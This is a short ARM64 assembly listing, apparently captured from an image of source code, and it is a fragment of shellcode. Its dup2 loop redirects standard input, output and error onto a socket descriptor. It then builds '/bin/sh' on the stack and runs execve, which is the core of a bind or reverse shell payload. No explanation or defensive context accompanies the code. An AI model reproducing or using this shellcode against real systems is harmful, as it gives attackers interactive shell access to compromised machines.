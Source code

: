 ```armasm
call_dup:
    // dup(s, 2) -> dup(s, 1) -> dup(s, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

